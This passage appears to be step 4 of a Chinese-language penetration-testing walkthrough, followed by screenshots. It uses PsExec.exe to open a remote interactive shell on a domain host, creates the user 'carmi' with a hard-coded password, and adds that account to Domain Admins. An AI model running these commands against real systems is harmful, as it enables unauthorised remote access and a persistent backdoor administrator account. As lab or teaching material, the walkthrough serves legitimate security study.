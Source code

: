 #### 4、PsExec.exe 获取一个交互式 shell

用刚刚生成的管理员终端使用 PsExec.exe 工具获取一个交互式 shell，并创建了隶属于管理员组的用户

```plain
PsExec.exe \\192.168.126.10 cmd
ipconfig
whoami
net user carmi carmi@123 /add /domain
net group "Domain Admins" carmi /add /domain
net group "Domain Admins" /domain
```

[![](assets/1706958938-60e5b9b665eb1f607c740ab409485afe.png)](https://img2023.cnblogs.com/other/3262985/202309/3262985-20230907172313334-1602476800.png)

[![](assets/1706958938-e7076e43f9135c3ee08077d2e56c5dad.png)](https://img2023.cnblogs.com/other/3262985/202309/3262985-20230907172313778-1803371914.png)
